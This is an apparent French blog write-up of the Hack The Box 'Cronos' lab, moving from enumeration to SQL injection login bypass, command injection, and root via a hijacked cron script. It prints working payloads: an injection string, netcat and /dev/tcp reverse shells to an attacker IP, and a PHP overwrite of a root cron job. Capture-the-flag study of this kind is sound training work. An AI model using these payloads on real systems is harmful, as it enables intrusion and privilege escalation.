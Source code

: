 ```yaml
---
title: "Write-up : Hack The Box - Cronos"
date: 2025-06-08T00:00:00+02:00
draft: false
author: "AntoineWHR"
tags: ["HackTheBox", "CTF", "Linux", "SQLi", "Command Injection", "Crontab", "Privilege Escalation"]
categories: ["WriteUps"]
comment:
  enable: true
description: "Solution complète du challenge Hack The Box Cronos, de l'injection SQL à l'élévation de privilèges via crontab."
---
```


<!--more-->

# **Write-up : Hack The Box - Cronos [MEDIUM]**

{{< admonition info "Informations sur la Box" >}}
*   **Nom :** Cronos
*   **Plateforme :** Hack The Box
*   **Difficulté Annoncée :** Medium
*   **Objectif :** Obtenir les flags `user.txt` et `root.txt`.
*   **IP cible :** 10.129.227.211
{{< /admonition >}}

## **Introduction**

Cette box Medium de Hack The Box nous invite à exploiter une application web vulnérable aux injections SQL et de commandes.

## **Phase 1 : Reconnaissance & Énumération**

### **1. Scan des Ports (Nmap)**

Commençons par identifier les services sur la machine cible avec un scan Nmap.

```bash
nmap -sC -sV 10.129.227.211
```

![NMAP](/images/imagescrnos/image-1.png)

{{< admonition note "Résultats Clés du Scan Nmap" >}}
Le scan révèle trois ports ouverts :

*   **Port 22 (SSH) :** OpenSSH 7.2p2 Ubuntu - Service SSH pour l'accès distant
*   **Port 53 (DNS) :** ISC BIND 9.10.3-P4 - Service DNS, parfait pour l'énumération de sous-domaines
*   **Port 80 (HTTP) :** Apache httpd 2.4.18 Ubuntu - Serveur web principal

Le service HTTP sera notre cible principale, et la présence du DNS suggère des sous-domaines à découvrir.
{{< /admonition >}}

### **2. Exploration Web & Énumération de Sous-domaines**

Le site principal ne révèle rien d'intéressant. Let's go énumérer les sous-domaines avec gobuster :

![NMAP](/images/imagescrnos/image-2.png)

```bash
gobuster vhost -u "cronos.htb" -w /usr/share/wfuzz/general/common.txt --append-domain
```


{{< admonition tip "Découverte Cruciale - Sous-domaine Admin" >}}
L'énumération révèle **admin.cronos.htb**. N'oublions pas de l'ajouter dans notre `/etc/hosts`.
{{< /admonition >}}

## **Phase 2 : Exploitation - Injection SQL**

### **Analyse du Panneau d'Administration**

En visitant `admin.cronos.htb`, nous découvrons une page de connexion classique. Après avoir examiné le code source sans succès, testons les vulnérabilités d'injection SQL les plus communes.

### **Bypass d'Authentification SQL**

Tentons une injection SQL classique pour contourner l'authentification :

```sql
admin' -- -
```


![gobuster](/images/imagescrnos/image-3.png)



{{< admonition success "Injection SQL Réussie !" >}}
L'injection SQL fonctionne parfaitement ! Nous accédons au dashboard admin.
{{< /admonition >}}

![sqlmeme](/images/imagescrnos/1_YGBbNkBIEvmiDFGC3dXpDw.jpg)

## **Phase 3 : Exploitation - Injection de Commandes**

### **Analyse du Dashboard**

Le dashboard présente un outil "Net Tool v0.1" permettant d'exécuter des commandes comme traceroute et ping. On dirait qu'on va devoir injecter de la commande par ici ! 

### **Test d'Injection de Commandes**

Testons l'injection de commandes en ajoutant des commandes supplémentaires après une adresse IP valide :

```bash
8.8.8.8; ls
```

La commande s'exécute avec succès ! Nous pouvons maintenant explorer le système :

```bash
8.8.8.8; cat /home/nolis/user.txt
```

{{< admonition success "Flag Utilisateur Obtenu !" >}}
L'injection de commandes fonctionne parfaitement et nous permet de récupérer directement le flag utilisateur depuis `/home/nolis/user.txt`.
{{< /admonition >}}

## **Phase 4 : Obtention d'un Shell Interactif**

### **Configuration du Reverse Shell**

Pour un meilleur contrôle de la machine, établissons un reverse shell. Utilisons un payload classique :

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.22 5555 >/tmp/f
```

```bash
nc -lnvp 5555
```

Et exécutons le payload via l'interface web. Nous obtenons un shell en tant qu'utilisateur `www-data`.

![dashboard](/images/imagescrnos/image-4.png)


## **Phase 5 : Élévation de Privilèges - Analyse du Système**

### **Exploration des Privilèges et Processus**

En tant que `www-data`, nos privilèges sont limités. Le nom de la box "Cronos" suggère que l'élévation de privilèges implique les tâches cron.
C'est assez commun à HTB donc vérifions ! 
```bash
cat /etc/crontab
```

![revshell](/images/imagescrnos/image-5.png)


### **Découverte Cruciale - Tâche Cron Root**


{{< admonition warning "Tâche Cron Vulnérable Identifiée !" >}}
BINGO! Le système exécute régulièrement le script `/var/www/laravel/artisan` en tant que root. 
{{< /admonition >}}

## **Phase 6 : Exploitation de la Tâche Cron**

### **Modification du Script Artisan**

Remplaçons le contenu du script `artisan` par un reverse shell qui se connectera à notre machine :

```bash
echo '<?php exec("bash -c '\''bash -i >& /dev/tcp/10.10.14.22/5556 0>&1'\''");' > /var/www/laravel/artisan
```

### **Configuration de l'Écoute**

```bash
# Sur notre machine d'attaque
nc -lnvp 5556
```

### **Attente de l'Exécution Automatique**

Patientons le temps que la tâche cron s'exécute automatiquement (toutes les minutes)....

![waiting](/images/imagescrnos/ba7o0.jpg)

![artisan](/images/imagescrnos/image-6.png)

{{< admonition success "Root Obtenu !" >}}
Le reverse shell s'active et nous obtenons un accès root ! La manipulation de la tâche cron fonctionne parfaitement.
{{< /admonition >}}

### **Récupération du Flag Root**

```bash
id
cat /root/root.txt
```

## **Conclusion**

{{< admonition summary "Résumé de l'Exploitation" >}}
Cette box Cronos est pas mal et nous permet de voir : 

1. **Énumération DNS** 
2. **Injection SQL** 
3. **Injection de commandes** 
4. **Reverse shell** 
5. **Analyse des crontabs** 
6. **Manipulation de fichiers** 

{{< /admonition >}}

Box très accessible pour une "Medium", parfaite pour comprendre l'importance de l'énumération complète et l'exploitation des cronjobs.

![pwn](/images/imagescrnos/image.png)
